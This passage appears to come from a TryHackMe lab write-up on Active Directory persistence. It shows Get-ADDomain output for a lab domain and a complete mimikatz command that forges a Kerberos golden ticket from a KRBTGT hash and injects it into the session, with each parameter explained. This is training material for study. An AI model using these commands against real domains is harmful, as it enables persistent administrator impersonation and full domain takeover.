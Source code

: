 ```powershell
ObjectClass                        : domainDNS                                                                                   
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2                                                        
ParentDomain                       : tryhackme.loc                                                                               
PDCEmulator                        : THMDC.za.tryhackme.loc                                                                      
PublicKeyRequiredPasswordRolling   :                                                                                             
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc                                                    
ReadOnlyReplicaDirectoryServers    : {}                                                                                          
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}                                                                    
RIDMaster                          : THMDC.za.tryhackme.loc                                                                      
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}                                               
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc                                                         
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc



C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

```powershell
# mimikatz

kerberos::golden /admin:fake4user /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3
b57366082 /endin:600 /renewmax:10080 /ptt
```


Parameters explained:

- **/admin** - The username we want to impersonate. This does not have to be a valid user.  
- **/domain** - The FQDN of the domain we want to generate the ticket for.  
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/krbtgt** -The NTLM hash of the KRBTGT account.  
- **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)  
- **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
